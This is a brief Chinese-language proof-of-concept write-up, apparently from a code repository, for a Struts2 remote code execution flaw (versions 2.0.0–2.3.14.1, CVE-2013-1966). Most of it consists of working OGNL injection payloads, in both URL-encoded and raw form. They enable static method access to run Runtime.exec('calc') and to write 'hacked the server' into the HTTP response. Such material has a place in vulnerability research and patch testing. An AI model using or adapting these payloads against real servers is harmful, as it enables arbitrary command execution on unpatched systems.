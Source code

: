 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.14.1

可以使用CVE-2013-1966的服务进行测试。  

POC过程:

<pre>
http://localhost:8080/struts2demo/HelloWorld.action?aaa=1%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%40java.lang.Runtime%40getRuntime%28%29.exec%28%22calc%22%29%7D
</pre>

成功调用计算器程序,如下图所示:

![hacker](hacker.jpg)

构造类似如下的payload:

<pre>
aaaa=1${#_memberAccess["allowStaticMethodAccess"]=true,@java.lang.Runtime@getRuntime().exec("calc")}
</pre>

可以使用如下的POC进行验证:

<pre>
http://127.0.0.1:8080/struts2demo/HelloWorld.action?q=1%24%7B%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%2C%23c%3D%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2C%23c.print%28%27hacked+the+server%27%29%2C%23c.close%28%29%7D
</pre>

构造如下的结构:

<pre>
1${#_memberAccess['allowStaticMethodAccess']=true,#c=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#c.print('hacked the server'),#c.close()}
</pre>